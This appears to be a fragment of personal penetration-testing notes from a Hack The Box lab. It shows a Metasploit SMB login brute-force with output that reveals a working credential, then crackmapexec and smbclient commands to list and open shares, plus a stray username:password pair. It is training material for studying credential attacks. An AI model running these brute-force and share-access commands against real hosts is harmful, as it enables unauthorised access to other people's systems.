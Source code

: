 ```shell-session
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads (max one per host)
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS       false            no        Try the username as the password for all users
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts


msf6 auxiliary(scanner/smb/smb_login) > set user_file user.list

user_file => user.list


msf6 auxiliary(scanner/smb/smb_login) > set pass_file password.list

pass_file => password.list


msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197

rhosts => 10.129.42.197

msf6 auxiliary(scanner/smb/smb_login) > run

[+] 10.129.42.197:445     - 10.129.42.197:445 - Success: '.\user:password'
[*] 10.129.42.197:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### shares smb
```shell-session
AhmaDb0x@htb[/htb]$ crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
```
#### Smbclient
```shell-session
AhmaDb0x@htb[/htb]$ smbclient -U user \\\\10.129.42.197\\SHARENAME
```

cassie:12345678910







# # Password Mutations
